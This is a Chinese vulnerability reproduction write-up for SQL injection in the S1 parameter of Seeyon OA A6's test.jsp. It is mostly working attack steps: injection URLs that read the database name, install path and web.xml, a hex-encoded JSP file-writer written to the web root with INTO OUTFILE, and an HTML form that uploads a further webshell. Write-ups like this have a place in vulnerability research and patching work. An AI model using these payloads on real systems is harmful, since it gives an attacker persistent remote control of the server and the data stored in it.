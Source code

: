 致远OA A6 test.jsp sql注入漏洞
==============================

一、漏洞简介
------------

致远A6协同系统 `/yyoa/common/js/menu/test.jsp` 文件 S1 参数SQL注入漏洞

二、漏洞影响
------------

致远OA A6

三、复现过程
------------

注入点为S1变量，通过探测，发现是mysql数据库

    http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=

于是构造注入语句查询数据库名：

    http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20database())

![](./resource/致远OAA6test.jspsql注入漏洞/media/rId24.png)

Mysql注入中，我们使用into outfile
来写入数据，用此方法注入webshell，前提条件两个：

-   1：root权限

-   2：物理路径

我们探测一下web根目录

    http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20@@basedir)

![](./resource/致远OAA6test.jspsql注入漏洞/media/rId25.png)

通过yyoa目录结构猜测物理路径为

    F:/UFseeyon/OA/tomcat/webapps/yyoa/

可以使用load\_file判断是否正确

    http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20load_file(%27F:/UFseeyon/OA/tomcat/webapps/yyoa/WEB-INF/web.xml%27)

利用mysql into
outfile写shell：由于jsp一句话超长，请求连接会拒绝，故先上传写文件脚本，再本地构造进行webshell上传：

    <%if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("\\")+request.getParameter("f"))).write(request.getParameter("t").getBytes());%>

由于特殊符号存在，URL编码会造成写入后代码错误，故采用hex编码后unhex处理上传，写入文件名为：he1p.jsp

    http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20unhex(%273C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E%27)%20%20into%20outfile%20%27F:/UFseeyon/OA/tomcat/webapps/yyoa/he1p.jsp%27

本地构造上传：

    <html>
        <form action="http://www.0-sec.org/yyoa/he1p.jsp?f=we1come.jsp" method="post">
            <textarea name=t cols=120 rows=10 width=45>your code</testarea>
            <input type=submit value="提交">
        </form>
    </html>

上传后获取webshell地址为：<http://www.0-sec.org/yyoa/we1come.jsp>

参考链接
--------

> <https://www.pa55w0rd.online/yyoa/>
